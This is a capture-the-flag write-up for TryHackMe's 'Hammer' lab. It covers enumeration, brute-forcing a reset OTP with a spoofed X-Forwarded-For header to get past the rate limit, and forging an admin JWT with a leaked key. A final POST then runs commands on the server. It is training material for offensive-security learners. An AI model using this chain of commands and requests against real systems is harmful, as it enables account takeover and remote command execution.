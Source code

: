 # Room: Hammer

## General Info
- **Room link:** [Hammer](https://tryhackme.com/room/hammer


## Description

With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

## Provided Files / Links
- [x] Target Machine IP (10.10.249.72)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.249.72 -p- -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I enumerate on the port 1337:

`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/javascript           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/javascript/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.249.72:1337/vendor/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```


`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1326]
/config.php           (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.htaccess            (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 1326]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/reset_password.php   (Status: 200) [Size: 1664]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
```

When visiting the index.php page (login form), I noticed a commentaire in the html:
`<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->`.

I then used ffuf to enumerate the directories with the given pattern.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.249.72:1337/hmr_FUZZ'`

```
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 20ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 4349ms]
```

None of the directories/files that were enumerated with gobuster gave relevant information.

I then had a look at the /hmr_js, /hmr_css, /hmr_images and /hmr_logs, and found these relevant logs in /hmr_logs:

```
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

- Notes:
	tester@hammer.thm seems to be a valid email
	hammerthm is a user in the target machine

With the newly found email tester@hammer.thm, I then tried to brute-force the OTP in the http://10.10.249.72:1337/reset_password.php page with Burp Suite but there was a rate limit in place.

Once the request for the OTP is made, there is a counter of 180s that will redirect you to /logout.php if you don't have the right OTP.

Since there is a rate limit on this endpoint, I will be be fuzzing the "X-Forwarded-For" header to get a rate limit bypass.

First, I create a txt file containing all the possible pin numers (between 0000 and 9999):

`seq -w 0000 9999 > pins.txt `

Then I use the following ffuf command to launch the attack (after grabbing the right PHPSESSID cookie):

```
ffuf -w pins.txt -u "http://hammer.thm:1337/reset_password.php" -X “POST” -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=CookieID" -H "X-Forwarded-For: FUZZ" -H “Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```

(I use the flag -fr "Invalid" to filter out the responses containing the word "Invalid").

I then get the right OTP password: 8541.

I change the password for the user tester@hammer.thm and I'm now able to log in. I find the first flag: **THM{AuthBypass3D}**.

### Logged in access

Once logged in, I have a look at the dashboard.php request in the network tab of the browser and find a JWT token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Rg_nED2D4PW7maxBWCh7BrlDs7nVR6FKicY6BV6nsFk`

Using jwt.io, I find that this jwt token needs a 256 bit secret.

Using the "command" field in the web page, I type `ls` and find that there is a `188ade1.key` file available. I navigate to http://10.10.249.72:1337/188ade1.key to download the resource.

`cat 188ade1.key` => `56058354efb3daa97ebab00fabd7a7d7`

 I change the role of the user in the JWT token ("role": "admin" instead of "role": "user") and I use this key to validate the jwt signature.

 The new JWT token with the admin permission is the following:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
```

The only thing left to do is now to make the POST request /execute_command.php with the JWT token with admin privileges.

I use Burp Suite with the following request:

```
POST /execute_command.php HTTP/1.1
Host: 10.10.249.72:1337
Content-Length: 39
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://10.10.249.72:1337
Referer: http://10.10.249.72:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1h2f4encdgd906cqvbjtq17ehp; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.md9lPE3rTrqVvsJmK1lB4ixAPCTmQyBuhP-Kd6LlAEI; persistentSession=no
Connection: keep-alive

{"command":"cat /home/ubuntu/flag.txt"}
```

And I get the flag **THM{RUNANYCOMMAND1337}** in the response:

```
{"output":"THM{RUNANYCOMMAND1337}\n"}
```